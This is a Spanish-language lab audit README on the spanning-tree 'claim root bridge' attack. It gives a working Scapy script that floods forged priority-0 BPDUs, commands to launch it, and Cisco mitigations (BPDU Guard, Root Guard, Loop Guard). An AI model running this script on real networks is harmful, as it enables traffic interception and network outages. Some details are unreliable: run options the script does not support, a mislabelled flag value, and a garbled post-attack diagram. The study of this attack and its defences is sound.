




# STP Claim Root Bridge Attack

**Auditoría de Seguridad - Capa 2 | Spanning Tree Protocol (STP) Manipulation**

## 📋 Tabla de Contenidos

- [Descripción General](#descripción-general)
- [Topología de Red](#topología-de-red)
- [Objetivo del Ataque](#objetivo-del-ataque)
- [Fundamentos de STP](#fundamentos-de-stp)
- [Lógica del Script](#lógica-del-script)
- [Requisitos Técnicos](#requisitos-técnicos)
- [Instalación y Configuración](#instalación-y-configuración)
- [Ejecución del Ataque](#ejecución-del-ataque)
- [Evidencia de Impacto](#evidencia-de-impacto)
- [Medidas de Mitigación](#medidas-de-mitigación)
- [Conclusiones](#conclusiones)

---

## Descripción General

El ataque **STP Claim Root Bridge Attack** es una técnica de manipulación de la topología de red que permite a un atacante convertirse en el **Root Bridge** del árbol de expansión. Al controlar el Root Bridge, el atacante puede:

- Manipular el flujo de tráfico de red
- Interceptar y monitorear comunicaciones (MitM)
- Ejecutar ataques de Loop/Flooding
- Degradar el rendimiento de la red

Este ataque afecta la **disponibilidad y confidencialidad** de los servicios.

### Impacto en la Seguridad

| Aspecto | Descripción |
|--------|-------------|
| **Confidencialidad** | 🟡 **MEDIA** - Posible interceptación |
| **Integridad** | 🟡 **MEDIA** - Posible modificación |
| **Disponibilidad** | 🔴 **CRÍTICA** - Loops de red |
| **Tipo de Ataque** | Topology Manipulation / Bridge Loop |
| **Capa OSI** | Capa 2 (Enlace) |

---

## Topología de Red

### Topología Física Pre-Ataque

```
                    ┌──────────────┐
                    │ Root Bridge  │
                    │    (S1)      │
                    │ Priority: 32768
                    │ MAC: aaaa.aaaa.aaaa
                    └──────┬───────┘
                           │
              ┌────────────┼────────────┐
              │            │            │
         (Eth0/0)     (Eth0/1)    (Eth0/2)
              │            │            │
        ┌─────────┐   ┌─────────┐  ┌──────────┐
        │Switch S2│   │Switch S3│  │Atacante  │
        │Priority │   │Priority │  │(Kali240) │
        │ 61440   │   │ 49152   │  │Spooped   │
        └────┬────┘   └────┬────┘  │Priority:0│
             │             │        │MAC:xxxx  │
        ┌────────────┐ ┌────────────┐└──────────┘
        │ Víctimas   │ │ Víctimas   │
        │ .0/24 Pool │ │ .0/24 Pool │
        └────────────┘ └────────────┘

FLUJO NORMAL:
S2 - S1 - S3 (a través de Root Bridge S1)
```

### Topología Lógica Post-Ataque

```
                    ┌──────────────┐
                    │ Atacante     │ ← NEW ROOT BRIDGE
                    │ (Kali-240)   │
                    │ Priority: 0  │
                    │ MAC: spoofed │
                    └──────┬───────┘
                           │
              ┌────────────┼────────────┐
              │            │            │
         (Eth0/0)     (Eth0/1)  (Spoofed)
              │            │            │
        ┌─────────┐   ┌─────────┐   
        │Switch S1│   │Switch S3│  
        │Designated   Designated   
        │Port        Port         
        └────────┬────┘   └────────────┘
             │ (Bloqueado)
        ┌────────────────┐
        │ LOOP POTENTIAL │
        └────────────────┘

FLUJO ALTERADO:
S2 - Atacante (240) - S1 - S3
Atacante controla la topología
```

### Configuración de Dispositivos

| Dispositivo | Dirección IP | Prioridad STP | MAC / Identidad | Rol |
|-----------|-------------|---------------|----------------|-----|
| **Switch S1** | 172.30.0.1 | 32768 | aaaa.aaaa.aaaa | Root original |
| **Switch S2** | 172.30.0.2 | 61440 | bbbb.bbbb.bbbb | Secundario |
| **Switch S3** | 172.30.0.3 | 49152 | cccc.cccc.cccc | Secundario |
| **Atacante (Kali)** | 192.168.11.240 | **0** | dddd.dddd.dddd | **Nuevo Root** |

---

## Objetivo del Ataque

**Convertirse en el Root Bridge manipulando la prioridad STP** mediante el envío de BPDUs de configuración falsificadas con:

✓ Prioridad = **0** (máxima, menor valor = mayor prioridad)  
✓ Bridge ID spoofed  
✓ Costos de puerto manipulados  
✓ Temporizadores ajustados  

**Resultados esperados:**
- Atacante se convierte en Root Bridge
- Reconfiguración de puertos (Blocking/Forwarding)
- Potencial creación de loops de spanning tree
- Control del flujo de tráfico de red
- Capacidad de ejecutar MitM

---

## Fundamentos de STP

### Algoritmo de Elección de Root Bridge

El Root Bridge se elige basándose en:

```
1. MENOR Prioridad del Bridge (16 bits, rango: 0-61440)
2. En caso de empate: MENOR MAC Address (48 bits)
```

**Estructura del Bridge ID:**
```
┌──────────────────────────────────────────┐
│ Bridge Priority │ Extended System ID │ MAC │
│   (4 bits)      │    (12 bits)      │ (48) │
│   0-61440       │    VLAN ID        │      │
└──────────────────────────────────────────┘

Ejemplo:
32768 : 0 : aaaa.aaaa.aaaa
└─ Prioridad por defecto
  └─ VLAN 0
    └─ MAC Address
```

### BPDU - Bridge Protocol Data Unit

```
BPDU de Configuración:
┌─────────────────────────────────────────┐
│ BPDU Type: 0x00 (Configuration)        │
│ Flags                                   │
│ Root Bridge ID (Prioridad + MAC)        │
│ Root Path Cost                          │
│ Bridge ID (Remitente)                   │
│ Port ID                                 │
│ Message Age                             │
│ Max Age                                 │
│ Hello Time                              │
│ Forward Delay                           │
└─────────────────────────────────────────┘
```

### Estados de Puerto STP

```
Blocking → Listening → Learning → Forwarding
   ↓          ↓         ↓          ↓
No envía  Solo recibe  Aprende   Envía y
ni recibe Recibe STP   MACs      recibe
  STP      (20 seg)   (15 seg)   (Normal)
```

---

## Lógica del Script

### Algoritmo Principal

El script construye BPDUs maliciosas con los siguiente pasos:

```python
# Pseudocódigo del ataque
from scapy.all import Ether, LLC, STP, sendp
import time

# Parámetros del ataque
ATTACKER_MAC = "00:11:22:33:44:55"
ATTACKER_PRIORITY = 0  # Máxima prioridad (menor valor)
TARGET_VLAN = 1
VICTIM_MAC = "aaaa.aaaa.aaaa"  # MAC del Root Bridge original

def craft_malicious_bpdu():
    """
    Construye un BPDU de configuración malicioso
    con prioridad 0 para convertir al atacante en Root Bridge
    """
    
    # Frame Ethernet
    eth = Ether(
        src=ATTACKER_MAC,
        dst="01:80:c2:00:00:00"  # MAC multicast STP
    )
    
    # LLC (Logical Link Control)
    llc = LLC(
        dsap=0x42,
        ssap=0x42,
        ctrl=0x03
    )
    
    # STP BPDU
    stp_bpdu = STP(
        bpdutype=0x00,           # Configuration BPDU
        bpduflags=0xc0,          # TC + TCA flags
        rootmac=ATTACKER_MAC,    # Atacante como Root
        rootpc=0,                # Path Cost = 0
        bridgemac=ATTACKER_MAC,  # Bridge ID = Atacante
        portid=0x8002,           # Port 2
        age=1,                   # Message Age
        maxage=20,               # Max Age
        hello=2,                 # Hello Time
        fwddelay=15              # Forward Delay
    )
    
    # Construir paquete completo
    packet = eth / llc / stp_bpdu
    return packet

def stp_attack(interface, interval=2):
    """
    Envía BPDUs maliciosas repetidamente
    
    Args:
        interface: Interfaz de red (ej: eth0)
        interval: Intervalo entre BPDUs (segundos)
    """
    
    print("[*] Iniciando STP Claim Root Bridge Attack")
    print(f"[*] Atacante MAC: {ATTACKER_MAC}")
    print(f"[*] Atacante Priority: {ATTACKER_PRIORITY}")
    print(f"[*] Interfaz: {interface}")
    
    packet_count = 0
    
    try:
        while True:
            # Construir BPDU malicioso
            bpdu = craft_malicious_bpdu()
            
            # Enviar
            sendp(bpdu, iface=interface, verbose=False)
            packet_count += 1
            
            print(f"[+] BPDU {packet_count} enviado - Atacante como Root Bridge")
            
            # Esperar antes del siguiente BPDU
            time.sleep(interval)
    
    except KeyboardInterrupt:
        print(f"\n[*] Ataque detenido. Total BPDUs: {packet_count}")

if __name__ == "__main__":
    stp_attack("eth0", interval=2)
```

### Diagrama de Flujo

```
1. Scanner STP activo
   └─→ Escucha BPDUs existentes
   
2. Extrae Bridge ID del Root actual
   └─→ Obtiene MAC del Root Bridge original
   
3. Construye BPDU malicioso
   └─→ Priority = 0 (máximo)
   └─→ MAC = Atacante
   └─→ Path Cost = 0
   
4. Envía BPDUs multicast constantemente
   └─→ 01:80:c2:00:00:00 (STP multicast)
   
5. Switches reciben BPDUs
   └─→ Comparan: Prioridad 0 < 32768 (Root original)
   └─→ Conclusion: Atacante es nuevo Root
   
6. Reconfiguración de topología
   └─→ Puertos pasan a Blocking/Forwarding
   └─→ Atacante controla el árbol
```

---

## Requisitos Técnicos

### Software

| Componente | Versión | Instalación |
|-----------|---------|-------------|
| **Python** | 3.8+ | `apt-get install python3` |
| **Scapy** | 2.4+ | `pip3 install scapy` |
| **Tcpdump** | 4.9+ | `apt-get install tcpdump` |
| **Wireshark** | 3.0+ | `apt-get install wireshark` |
| **Linux** | Ubuntu/Kali | Sistema operativo |

### Hardware

- **Interfaz de Red**: Conexión L2 a switches (no requiere IP)
- **Privilegios**: Root/sudo requerido
- **Memoria**: 256 MB mínimo

### Dependencias

```bash
# Instalación de dependencias
sudo apt-get update
sudo apt-get install -y python3 python3-pip tcpdump wireshark

# Instalar librerías Python
pip3 install scapy
```

---

## Instalación y Configuración

### Paso 1: Clonar el Repositorio

```bash
git clone https://github.com/tu-usuario/stp-root-bridge-attack.git
cd stp-root-bridge-attack
```

### Paso 2: Verificar Conectividad L2

```bash
# Verificar interfaz de red (no necesita IP)
ip link show eth0

# Habilitar interfaz si es necesario
sudo ip link set eth0 up
```

### Paso 3: Verificar Topología STP Actual

```bash
# Capturar BPDUs existentes
sudo tcpdump -i eth0 -nn "stp" -v -c 10

# El output mostrará:
# Root Bridge: [Prioridad:MAC]
# Bridge: [Prioridad:MAC]
# Port: [Número Puerto]
```

### Paso 4: Instalar Dependencias

```bash
sudo pip3 install -r requirements.txt
```

**Contenido de requirements.txt:**
```
scapy==2.4.5
```

### Paso 5: Configurar Espía STP (Opcional)

```bash
# Crear script de monitoreo
cat > monitor_stp.sh << 'EOF'
#!/bin/bash
echo "[*] Monitoreando topología STP..."
while true; do
    echo "[*] $(date)"
    sudo tcpdump -i eth0 "stp" -v -c 1
    sleep 3
done
EOF

chmod +x monitor_stp.sh
```

---

## Ejecución del Ataque

### Verificación Previa

```bash
# 1. Capturar BPDUs actuales
sudo tcpdump -i eth0 "stp" -v -c 20

# 2. Identificar Root Bridge actual
# Root Bridge aparecerá como el dispositivo con menor prioridad
# Buscar: "Root Bridge: Prioridad.MAC"

# 3. Documentar topología
echo "[*] Tomando screenshot de configuración actual"
# Desde el switch: show spanning-tree (si acceso disponible)
```

### Ejecutar el Ataque

```bash
# Opción 1: Ejecución básica
sudo python3 stp_root_bridge_attack.py

# Opción 2: Con interfaz específica
sudo python3 stp_root_bridge_attack.py --interface eth0

# Opción 3: Con parámetros avanzados
sudo python3 stp_root_bridge_attack.py \
    --interface eth0 \
    --priority 0 \
    --mac 00:11:22:33:44:55 \
    --interval 2 \
    --vlan 1 \
    --verbose

# Opción 4: Con captura simultánea
sudo tcpdump -i eth0 "stp or bpdu" -w stp_attack.pcap &
sudo python3 stp_root_bridge_attack.py --verbose

# Opción 5: Con monitoreo de reconfiguración
watch -n 1 'sudo tcpdump -i eth0 "stp" -v -c 1'
```

### Monitoreo en Tiempo Real

```bash
# Terminal 1: Ejecutar ataque
sudo python3 stp_root_bridge_attack.py --verbose

# Terminal 2: Monitorear topología actual
while true; do
    clear
    echo "[*] STP Status - $(date)"
    sudo tcpdump -i eth0 "stp" -v -c 1 2>/dev/null | grep -E "Root Bridge:|This Bridge:"
    sleep 3
done

# Terminal 3: Capturar tráfico
sudo tcpdump -i eth0 -nn -w stp_capture.pcap
```

### Detener el Ataque

```bash
# Enviar SIGINT (Ctrl+C) o usar:
pkill -f stp_root_bridge_attack.py

# Verificar que switches vuelven a converger
# Esperar 20-30 segundos para que vuelva la topología normal
sudo tcpdump -i eth0 "stp" -v -c 20
```

---

## Evidencia de Impacto

### Captura de Pantalla 1: Topología Antes del Ataque



*Descripción: Switch S1 como Root Bridge actual, mostrando prioridad 32768 y BPDU normal.*

### Captura de Pantalla 2: MAC del Atacante Antes


*Descripción: Dirección MAC del atacante (Kali Linux) antes de ejecutar el ataque.*

### Captura de Pantalla 3: Lanzamiento del Ataque STP



*Descripción: Script enviando BPDUs maliciosas con prioridad 0, reclamando ser Root Bridge.*

### Captura de Pantalla 4: Topología Después del Ataque



*Descripción: Reconfiguración STP, puertos bloqueados/reenviados, topología alterada.*

### Captura de Pantalla 5: MAC del Atacante Después



*Descripción: MAC del atacante aparecer en tablas STP como Root Bridge.*

### Métricas de Impacto

| Métrica | Valor |
|--------|-------|
| **Root Bridge Original** | S1 (Priority: 32768) |
| **Nuevo Root Bridge** | Atacante (Priority: 0) |
| **Tiempo de Convergencia** | 20-30 segundos |
| **Puertos Afectados** | Variable según topología |
| **Loops Generados** | Potencial 1-x (según topología) |
| **Severidad** | 🔴 CRÍTICA |

---

## Medidas de Mitigación

### 1. BPDU Guard en Puertos de Acceso

**Objetivo**: Detener BPDUs desde dispositivos que no deben ser switches.

```ios
configure terminal

! Aplicar BPDU Guard en puertos de acceso
interface Ethernet0/1
 description ACCESS-PORT-VIC1
 switchport mode access
 spanning-tree bpduguard enable
 spanning-tree portfast
 exit

interface Ethernet0/2
 description ACCESS-PORT-VIC2
 switchport mode access
 spanning-tree bpduguard enable
 spanning-tree portfast
 exit

interface Ethernet0/3
 description ACCESS-PORT-POTENTIAL-ATTACKER
 switchport mode access
 spanning-tree bpduguard enable
 spanning-tree portfast
 exit

! Configurar acción en violation
errdisable recovery cause bpduguard
errdisable recovery interval 300

end

! Verificar
show spanning-tree portfast bpduguard
```

### 2. Root Guard en Puertos de Distribución

**Objetivo**: Impedir que dispositivos externos se conviertan en Root Bridge.

```ios
configure terminal

! Puerto UPLINK hacia otros switches
interface Ethernet0/0
 description UPLINK-TO-CORE
 spanning-tree guard root
 exit

! Puertos de distribución secundarios
interface Ethernet0/1
 description DISTRIBUTION-LINK
 spanning-tree guard root
 exit

! Configurar acción
spanning-tree rootguard timeout 30

end

! Verificar
show spanning-tree rootguard
```

### 3. Port Fast para Hosts

**Objetivo**: Acelerar convergencia en puertos de acceso (hosts).

```ios
configure terminal

interface Ethernet0/1
 spanning-tree portfast
 exit

interface Ethernet0/2
 spanning-tree portfast
 exit

interface Ethernet0/3
 spanning-tree portfast
 exit

! Aplicar por defecto a todos los access ports
spanning-tree portfast default

end
```

### 4. Loop Guard

**Objetivo**: Prevenir loops por falso recibo de BPDUs.

```ios
configure terminal

! En interfaz sospechosa
interface Ethernet0/3
 spanning-tree guard loop
 exit

! O globalmente
spanning-tree loopguard default

end

! Verificar
show spanning-tree loopguard
```

### 5. Prioridad STP Explícita

**Objetivo**: Definir explícitamente el Root Bridge legítimo (S1).

```ios
! En Switch S1 (Root deseado)
configure terminal

spanning-tree vlan 1 priority 0

end

! En Switch S2
configure terminal

spanning-tree vlan 1 priority 4096

end

! En Switch S3
configure terminal

spanning-tree vlan 1 priority 8192

end

! Verificar
show spanning-tree vlan 1
```

### 6. BPDU Filtering

**Objetivo**: Descartar BPDUs en puertos específicos.

```ios
configure terminal

interface Ethernet0/3
 description SUSPECTED-ATTACK-PORT
 spanning-tree bpdufilter enable
 exit

end

! Verificar
show spanning-tree bpdufilter
```

### 7. Verificación y Validación

```bash
#!/bin/bash
# validate_stp_security.sh

echo "[*] Validando configuración STP..."

# Capturar BPDUs
echo "[*] Analizando BPDUs..."
sudo tcpdump -i eth0 "stp" -v -c 50 > stp_analysis.txt

# Verificar Root Bridge
ROOT_BRIDGE=$(grep "Root Bridge" stp_analysis.txt | head -1)
echo "[*] Root Bridge: $ROOT_BRIDGE"

# Contar BPDUs por fuente
echo "[*] BPDUs por origen:"
grep "Priority:" stp_analysis.txt | sort | uniq -c

# Verificar loops (latencia, pérdida de paquetes)
for switch in 192.168.11.{1..3}; do
    echo "[*] Verificando $switch..."
    ping -c 1 -W 1 $switch > /dev/null 2>&1 && echo "[+] OK" || echo "[-] TIMEOUT"
done

# Alerta si múltiples Root Bridges
ROOTS=$(grep "Root Bridge" stp_analysis.txt | wc -l)
if [ $ROOTS -gt 3 ]; then
    echo "[!] ALERTA: Múltiples Root Bridges detectados - POSIBLE ATAQUE"
fi
```

### 8. Monitoreo SNMP

```ios
configure terminal

! Enable SNMP traps para STP
snmp-server community public RO

snmp-server trap-source Vlan 1
snmp-server enable traps stp

! Enviar a syslog
logging host 192.168.11.100
logging trap warnings
logging level spanning-tree debugging

end
```

---

## Conclusiones

### Hallazgos Críticos

1. ✓ **Vulnerabilidad Confirmada**: STP es vulnerable a ataques BPDU sin protecciones
2. ✓ **Impacto Crítico**: Control de topología de red completa
3. ✓ **Facilidad de Ejecución**: Scapy puede forjar BPDUs en segundos
4. ✓ **Efecto Cascada**: Potencial creación de loops y degradación de rendimiento

### Recomendaciones

| Prioridad | Recomendación | Implementación |
|-----------|---------------|----------------|
| **CRÍTICA** | Implementar BPDU Guard | Inmediato |
| **CRÍTICA** | Implementar Root Guard | Inmediato |
| **CRÍTICA** | Definir prioridad Root explícita | Inmediato |
| **ALTA** | Configurar PortFast en acceso | Dentro de 7 días |
| **ALTA** | Implementar Loop Guard | Dentro de 7 días |
| **MEDIA** | Monitoreo SNMP/Syslog | Dentro de 30 días |
| **MEDIA** | Auditar puertos periódicamente | Mensual |

---

## Referencias

- [IEEE 802.1D - Spanning Tree Protocol](https://standards.ieee.org/standard/802_1D-2004.html)
- [Cisco Spanning Tree Protocol](https://www.cisco.com/c/en/us/support/docs/lan-switching/spanning-tree-protocol/5234-5.html)
- [Cisco BPDU Guard](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3750/software/release/12-2_25_seb/configuration/guide/3750scg/swswitch.html#wp1037369)
- [Cisco Root Guard](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3750/software/release/12-2_25_seb/configuration/guide/3750scg/swswitch.html#wp1038146)
- [OWASP - Network Segmentation](https://owasp.org/www-community/attacks/Network_Segmentation)
- [Scapy STP](https://scapy.readthedocs.io/)

---

**Auditoría Realizada**: Febrero 2026  
**Estado**: Completado  
**Versión**: 1.0
